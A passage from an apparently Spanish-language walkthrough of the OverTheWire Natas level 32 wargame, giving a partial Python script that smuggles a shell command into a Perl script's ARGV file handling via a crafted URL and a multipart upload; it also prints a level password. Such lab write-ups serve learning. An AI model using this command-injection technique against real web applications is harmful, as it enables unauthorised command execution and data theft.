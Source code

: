 <figure><img src="../../../.gitbook/assets/image (411).png" alt=""><figcaption></figcaption></figure>

El código no tiene mucha diferencia relevante del anterior por lo que he creado este script para obtener la contraseña teniendo en cuenta más o menos como la obtuvimos anteriormente.

```python
import requests
import re

# Credenciales para el nivel 32
credentials = {
    'username': 'natas32',
    'password': 'NaIWhW2VIrKqrc7aroJVHOZvk3RQMi0B'
}

base_url = 'http://{}.natas.labs.overthewire.org'.format(credentials['username'])
auth = (credentials['username'], credentials['password'])

# La URL a la que se enviará la solicitud POST
url = base_url + '?/var/www/natas/natas32/getpassword | xargs echo|'

# Crea una sesión de requests
session = requests.session()

# Los datos y archivos que se enviarán en la solicitud POST
data = {'file': 'ARGV'}
files = [('file', ('my_csv.csv', b'a,b\n1,2'))]

```
